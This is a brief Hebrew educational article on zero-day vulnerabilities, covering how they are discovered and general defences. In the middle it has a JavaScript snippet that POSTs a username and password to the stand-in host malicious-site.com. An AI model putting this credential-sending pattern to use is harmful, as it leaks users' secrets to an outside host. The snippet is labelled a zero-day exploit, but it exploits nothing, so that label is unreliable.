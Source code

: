 ```yaml
---
כותרת: "פגיעויות יום אפס: מהן וכיצד הן משפיעות על אבטחת הסייבר"
תאריך: 28 באוגוסט 2024
מחבר: Ofir P.
קטגוריות: אבטחת מידע, סייבר
---
```


## מבוא
פגיעויות יום אפס (Zero-Day Vulnerabilities) הן אחד מהאיומים החמורים ביותר בעולם הסייבר. במאמר זה נחקור מהן פגיעויות יום אפס, כיצד הן מתגלות, וההשפעות הרבות שיש להן על אבטחת המידע בארגון.

## מהי פגיעות יום אפס?
פגיעות יום אפס היא פרצה או חולשה בתוכנה או בחומרה שטרם התגלתה על ידי המפתחים. האקרים מנצלים פגיעויות אלו באופן מהיר, לפני שהמפתחים יכולים לשחרר תיקון או עדכון.

### תכונה מרכזית:

- **חדשנות התקפה**: פגיעות יום אפס נוצרת כאשר הקהילה או החברה טרם מודעת לבעיה. זה יוצר חלון זמן מסוכן שבו ההאקרים יכולים לפעול.

> "החולשה הכי מסוכנת היא זו שאיננו יודעים על קיומה." — חוקר אבטחת מידע

## כיצד פגיעויות יום אפס מתגלות?

1. **מחקר אבטחה** – חוקרי אבטחה מזהים חולשות בתוכנה באמצעות בדיקות חדירה וניתוח קוד.
2. **התקפות האקרים** – לעיתים, פגיעויות נחשפות כאשר האקרים מנצלים אותן כדי לבצע מתקפות.
3. **גילוי במקרה** – משתמשים או מפתחים עשויים לגלות פגיעות בטעות ולדווח עליה.

## דוגמה לקוד זדוני שמנצל פגיעות יום אפס
```javascript
// קוד זדוני לדוגמה
fetch('https://malicious-site.com/exploit', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
  },
  body: JSON.stringify({
    username: 'victim',
    password: 'password123'
  })
})
.then(response => response.json())
.then(data => console.log('Exploited successfully:', data))
.catch(error => console.error('Error:', error));
```

## כיצד ניתן להתגונן מפני פגיעויות יום אפס?

- **עדכון שוטף של תוכנה** – הקפדה על התקנת עדכוני אבטחה בזמן אמת.
- **שימוש בחומות אש ואנטי-וירוס מתקדמים** – תוכנות אבטחה יכולות לזהות התנהגות חשודה.
- **הגבלת גישה והרשאות** – הפחתת הסיכון על ידי הקצאת גישה מינימלית למידע רגיש.
- **שימוש בטכניקות הקשחת מערכת** – חיזוק מערכות הפעלה ואפליקציות כדי למנוע ניצול פגיעויות.

> "אל תמתין לפרצה הבאה - הקדם תרופה למכה." — מומחה לאבטחת מידע

## סיכום
פגיעויות יום אפס מהוות איום ממשי על אבטחת המידע, אך באמצעות אמצעי הגנה מתקדמים ומודעות גבוהה, ניתן לצמצם את הסיכון ולמנוע מתקפות חמורות. תמיד הישארו מעודכנים וערניים לאיומים חדשים בעולם הסייבר.

---

*מאמר זה נכתב כחלק ממדור הסייבר שלנו. המשיכו לעקוב אחרינו לעדכונים נוספים בעולם אבטחת המידע.*

